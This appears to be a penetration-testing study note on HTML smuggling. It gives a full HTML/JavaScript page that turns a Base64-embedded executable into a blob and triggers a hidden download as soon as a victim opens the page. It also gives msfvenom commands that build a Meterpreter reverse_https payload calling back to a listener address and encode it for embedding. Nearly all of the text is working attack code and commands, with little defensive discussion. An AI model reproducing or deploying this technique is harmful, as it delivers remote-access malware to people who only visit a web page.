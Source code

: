 # Client side code exec using HTML smuggling

## How to create
```
1. Create a Base64 Meterpreter executable and store it as a *Blob* inside of a JavaScript variable

2. Use that Blob to create a URL file object that simulates a file on the web server

3. Create an invisible anchor tag that will trigger a download action once the victim loads the page
```
Example
```html
<html>
    <body>
        <script>
          function base64ToArrayBuffer(base64) {
    		  var binary_string = window.atob(base64);
    		  var len = binary_string.length;
    		  var bytes = new Uint8Array( len );
    		  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
    		  return bytes.buffer;
      		}
      		
      		var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
Generate a windows/x64/meterpreter/reverse_https payload using our now-familiar syntax and convert it to base64:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
base64 /var/www/html/msfstaged.exe
```
![alt text](image.png)
*Before embedding the Base64-encoded executable, we must remove any line breaks or newlines, embedding it as one continuous string. Alternatively, we could wrap each line in quotes

Result
![alt text](image-1.png)

## References
https://www.outflank.nl/blog/2018/08/14/html-smuggling-explained/
https://www.outflank.nl/demo/html_smuggling.html
